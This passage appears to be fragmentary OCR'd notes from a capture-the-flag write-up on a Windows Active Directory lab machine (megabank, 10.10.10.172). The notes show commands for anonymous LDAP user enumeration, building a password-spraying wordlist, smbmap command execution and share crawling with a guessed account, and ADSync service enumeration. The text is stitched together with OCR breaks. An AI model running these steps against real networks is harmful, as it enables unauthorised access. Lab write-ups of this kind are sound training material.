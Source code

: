 we use this to export all the DNS records
- to recursively search for a file with a specific string in powershell, we can use
```
gci -recurse -include MEGABANK*
```
it saved the file in `C:\Windows\System32\dns`
- we will see that the IP is correct

Writeup
- check members of the Remote Management that allows users to connect using Poweshell Remoting
```shell
python windapsearch.py -u "" --dc-ip 10.10.10.172 -U -m "Remote Management Users"
```
- use it to create a list of domain users
```shell
python windapsearch.py -u "" --dc-ip 10.10.10.172 -U | grep '@' | cut -d ' ' -f 2 | cut
-d '@' -f 1 | uniq > users.txt
```
- we can also add these to our password list
```shell
wget https://raw.githubusercontent.com/insidetrust/statistically-likely-
usernames/master/weak-corporate-passwords/english-basic.txt
cat users.txt >> english-basic.txt
```
- we can also try to execute commands using smbmap which isn't successful
```shell
smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -x whoami
```
- we can crawl the shares for interesting files
```
smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -A
'(xlsx|docx|txt|xml)' -R
```

```
whoami /groups
```
- https://docs.microsoft.com/en-us/azure/active-directory/hybrid/concept-adsync-service-account
- we can try to enumerate services with the PowerShell cmdlet `Get-Service` , or by invoking
```
wmic.exeservice get name 

OR 

sc.exe query state= all 

OR

net.exe start 
```

but are also denied access. Instead,
`tasklist` also showed access denied
- we can enumerate the service instance using the Registry

```
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```
